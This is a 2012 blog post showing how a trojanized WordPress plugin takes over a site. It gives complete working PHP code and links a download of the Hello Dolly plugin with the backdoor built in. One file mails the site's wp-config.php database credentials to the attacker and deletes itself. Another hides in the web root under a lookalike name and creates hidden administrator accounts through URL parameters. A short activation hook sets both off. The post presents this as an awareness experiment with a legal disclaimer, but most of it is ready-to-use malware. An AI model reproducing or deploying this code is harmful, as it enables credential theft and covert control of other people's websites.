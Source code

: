 ```yaml
---
date: '2012-07-04 11:11:42'
title: How a wordpress plugin or theme hack your site
---
```


I’ve been using wordpress for a few months, it’s such a powerful and enjoyable tool to me. I use it both for blogging and building websites. Themes and plugins are two important aspects that make wordpress great and I can never spend enough time exploring them. Gradually however, I learnt that I shouldn’t download and install them so freely without considering whether their sources are safe or not. In order to better understand how easy it is for a third-party theme/plugin to hack my website, I myself, wrote a hacking script. And to my greatest surprise, it works!

All you need to do is to put a nine-line code and two tiny php files into a theme or plugin, then once the website owner click “Activate”, it’s done. The script is able to hide itself, moreover uninstalling the theme/plugin won’t save the website owner. You’ll see how it works below.

The script I wrote mainly has two functions:

One is to send website’s wp-config.php file to hacker’s mailbox, so the hacker knows a new website just got hacked, meanwhile, wp-config.php contains some information which can be quite useful（some people use same password for both database and wordpress account, not a good idea – - ）

The other function is to leave a backdoor for the hacker to control the website whenever he wants. For example, if carelessblogger.com is hacked by this script, anyone can type “[carelessblogger.com/wp-cong.php?s=hack&w=hack](http://carelessblogger.com/wp-cong.php?s=hack&w=hack)” at browser’s address bar, press enter, then an admin-role account with username “hack” and password “hack” is created. People can use this account to log into the website with admin power. After stealing information, they can then type “[carelessblogger.com/wp-cong.php?s=hack](http://carelessblogger.com/wp-cong.php?s=hack)” again to delete this account so that their trace won’t be found. Moreover, typing “[carelessblogger.com/wp-cong.php?s=hack&t=disappear](http://carelessblogger.com/wp-cong.php?s=hack&t=disappear)” will delete the backdoor script itself. (it doesn’t have to be “disappear”, anything but “0″ will do, the file-deleting command only works while deleting the user, it’s designed this way in case you delete the file but forget to delete the user you just created.)

The above two functions are put into two different files:

 

The email notification function is put in a file called “email.php” :  
<pre><code> 
 //revised from Jim Plush’s HTML EMAIL WITH JPEG ATTACHMENTS TUTORIAL  
 function email_notification()  {

$theurl = (!empty($_SERVER['HTTPS'])) ? “https://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'] : “http://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'];

$to = ‘youremail@email.com’;  
 $subject = ‘A new site is hacked : P’ ;  
 $bound_text = “whateverdoesntmatter”;  
 $bound = “–”.$bound_text.”\r\n”;  
 $bound_last = “–”.$bound_text.”–\r\n”;

$headers = “From: $theurl \r\n”;  
 $headers .= “MIME-Version: 1.0\r\n”  
 .”Content-Type: multipart/mixed; boundary=\”$bound_text\””;

$message .= “MIME not accepted!\r\n”  
 .$bound;

$message .= “Content-Type: text/html; charset=\”iso-8859-1\”\r\n”  
 .”Content-Transfer-Encoding: 7bit\r\n\r\n”  
 .”Life is ilke a boat: )\r\n”  
 .$bound;

$file = file_get_contents(“../../../wp-config.php”);

$message .= “Content-Type: image/jpg; name=\”wp-config.php\”\r\n”  
 .”Content-Transfer-Encoding: base64\r\n”  
 .”Content-disposition: attachment; file=\”wp-config.php\”\r\n”  
 .”\r\n”  
 .chunk_split(base64_encode($file))  
 .$bound_last;

mail($to, $subject, $message, $headers);

}

function create_file()  {

$theurl = (!empty($_SERVER['HTTPS'])) ? “https://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'] : “http://”.$_SERVER['SERVER_NAME'].$_SERVER['REQUEST_URI'];

$gotourl = substr($theurl,0,-40) . ‘wp-admin/plugins.php’ ;

email_notification();  
 rename(‘backdoor.php’, ‘../../../wp-cong.php’);  
 unlink(‘email.php’);  
 header(‘Location: ‘ . $gotourl);

}

create_file();

</code></pre>  
 The backdoor function is put into a file called “backdoor.php” : 
 
<pre><code>

require_once(‘wp-blog-header.php’);  
require_once(‘wp-admin/includes/user.php’);  
require_once(‘wp-includes/load.php’);

$newusername = $_GET["s"];  
$newpassword = $_GET["w"];

// Check that user doesn’t already exist  
 if ( !username_exists($newusername) )  
 {  
 // Create user and set role to administrator  
 $user_id = wp_create_user( $newusername, $newpassword);  
 if ( is_int($user_id) )  
 {  
 $wp_user_object = new WP_User($user_id);  
 $wp_user_object->set_role(‘administrator’);  
 echo ‘user created!’;  
 }  
 else {  
 echo ‘Error. Not created.’;  
 }  
 }  
 else {  
 $user_id = username_exists( $newusername );

wp_delete_user( $user_id);  
 echo ‘user deleted!’;

if ($_GET["t"]){  
 unlink(‘wp-cong.php’);  
 echo ‘file deleted!’;

}

}

</code></pre>  
 Finally, I put the following code into the main php file of the original theme/plugin (this example is for a plugin):  
<pre><code>  
 register_activation_hook(__FILE__, ‘my_plugin_activate’);  
 add_action(‘admin_init’, ‘my_plugin_redirect’);  
 function my_plugin_activate() {  
 add_option(‘my_plugin_do_activation_redirect’, true);}  
 function my_plugin_redirect() {  
 if (get_option(‘my_plugin_do_activation_redirect’, false)) {  
 delete_option(‘my_plugin_do_activation_redirect’);  
 wp_redirect(home_url().’/wp-content/plugins/pluginname/email.php’);}  
 }  
</code></pre>

All done! The theme/plugin’s original function won’t be affected at all and neither email.php and backdoor.php can be found in theme/plugin folder after “Activate” is pressed so that the website owner won’t be able to pinpoint which theme/plugin did it. “Email.php” is deleted permanently and “backdoor.php” is moved to the root, name changed to “wp-cong.php” (name is changed so because I feel it might be a little bit harder to be found among “wp-comments-post.php”, “wp-config-sample.php”， “wp-config.php”， “wp-cron.php“)

If the website owner read codes very carefully then he/she might be able to find the above nine lines of code, and that’s all he/she can find.

My conclusion of this tiny experiment is that even a newbie can make a  malicious theme/plugin to fully take control of your site easily, so If you happen to read this post, I hope you’ll be more aware of the dangerous of using third-party themes/plugins and never attempt to hack others’ website (IT’S ILLEGAL, DON’T DO IT!). And if the later happens unfortunately, I won’t take any responsibility.

Here is an example using Hello Dolly plugin (remember to change youremail@email.com to your own email and you can only use it for yourself)

[Download](/content/images/uploads/2012/09/hello-dolly.zip "hello dolly with backdoor")

 


